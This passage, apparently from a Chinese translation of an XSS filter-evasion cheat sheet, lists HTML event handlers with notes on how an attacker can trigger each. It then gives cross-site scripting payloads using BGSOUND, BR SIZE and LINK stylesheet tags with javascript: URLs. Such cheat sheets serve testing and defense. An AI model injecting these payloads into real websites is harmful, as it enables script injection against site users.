 onResume() (当元素继续播放时触发)

onReverse() (当元素回放时触发)

onRowsEnter() (用户或攻击者需要改变数据源中的一行)

onRowExit() (用户或攻击者改变数据源中的一行后退出时触发)

onRowDelete() (用户或攻击者需要删除数据源中的一行)

onRowInserted() (user or attacker would needto insert a row in a data source)

onScroll() (用户需要滚动或攻击者使用scrollBy()函数)

onSeek() (当用户在元素上执行查找操作时触发)

onSelect() (用户需要选择一些文本-攻击者可以以此方式触发: window.document.execCommand("SelectAll");)

onSelectionChange() (当用户选择文本变化时触发-攻击者可以以此方式触发: window.document.execCommand("SelectAll");)

onSelectStart() (当用户开始选择文本时触发-攻击者可以以此方式触发: window.document.execCommand("SelectAll");)

onStart() (在marquee 对象开始循环时触发)

onStop() (当用户按下停止按钮或离开页面时触发)

onStorage() (当Web Storage更新时触发)

onSyncRestored() (当元素与它的时间线恢复同步时触发)

onSubmit() (需要用户或攻击者提交表单)

onTimeError() (用户或攻击者设置时间属性出现错误时触发)

onTrackChange() (用户或攻击者改变播放列表内歌曲时触发)

onUndo() (用户返回上一浏览记录页面时触发)

onUnload() (用户点击任意链接或按下后退按钮或攻击者强制进行点击时触发)

onURLFlip() (当一个高级流媒体格式（ASF）文件，由一个HTML+TIME（基于时间交互的多媒体扩展）媒体标签播放时，可触发在ASF文件中内嵌的攻击脚本)

seekSegmentTime() (这是一个方法可以定位元素某个时间段内中的特定的点，并可以从该点播放。这个段落包含了一个重复的时间线，并包括使用AUTOREVERSE属性进行反向播放。)



### 2.46.    BGSOUND


<BGSOUND SRC="javascript:alert('XSS');">




### 2.47.    & JavaScript包含


<BR SIZE="&{alert('XSS')}">




### 2.48.    样式表


<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
